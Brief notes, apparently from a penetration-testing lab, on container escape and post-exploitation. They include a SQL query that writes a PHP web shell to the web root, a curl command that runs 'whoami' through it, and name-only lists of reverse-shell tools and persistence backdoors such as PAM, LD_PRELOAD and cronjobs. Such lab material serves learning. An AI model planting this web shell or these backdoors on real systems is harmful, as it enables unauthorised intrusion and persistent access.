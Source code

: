 
Now there are several ways to escape a container, all typically stemming from misconfigurations of the contrainer from services or access controls.

[https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html)

This is the code that will help us to create or can see help us to inject our php code that we can trigger to get the RCE vulnerability.

```sql

select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';
```

![[Pasted image 20240215205743.png]]

```bash

curl 192.168.100.1:8080/shell.php?cmd=whoami
```

One thing to keep in mind that: How to get a reverse shell on a box once you have RCE: netcat bash python perl

So what to do after we gained a decent foothold and have a stable shell. Like we don't want to lose our foothold and redo the work if the machine is reset or our shell get's terminated.

SO different methods for persistence: LD_PRELOAD Backdoored binaries PAM backdoor SSH keys Malicious Services Cronjob Credential harvesting